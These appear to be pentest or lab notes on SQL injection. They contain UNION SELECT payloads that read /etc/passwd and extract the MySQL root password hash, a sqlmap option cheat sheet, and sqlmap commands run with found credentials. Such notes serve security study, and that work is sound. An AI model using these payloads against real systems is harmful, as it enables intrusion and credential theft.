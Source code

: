 ```bash
' UNION SELECT 1,2,load_file(/etc/passwd),4,5,6,7,8,9 #    <--this might now work if the `load_file` is disabled on the server.

' UNION SELECT 1,current_user(),session_user(),4,5,6,7,8,9 #

```

---

## testing SQLmap with user authenticantion

* <https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap>

```bash
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

```bash
sqlmap -u ${URL} --batch --auth-type="Basic" --auth-cred="douglas:1m1ghtbwrong?" --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5
```

authentication didn't work...

trying sql UNION in the browser `' UNION SELECT 1,Password,User,4,5,6,7,8,9 FROM mysql.user WHERE user="root"#`

```bash
root
*4D4660866D8BB729116A6BBE5913441937DF1432
```

```bash
sqlmap -u ${URL} --batch --auth-type="NTLM" --auth-cred="ARMSDON\root:4D4660866D8BB729116A6BBE5913441937DF1432" --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5
```

```bash
sqlmap -u "<URL>" --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --dbms="MySQL" --os="ubuntu" --technique="UB" --batch --auth-type="Digest" --auth-cred="root:4D4660866D8BB729116A6BBE5913441937DF1432" --union-char "GsFRts2"
```

---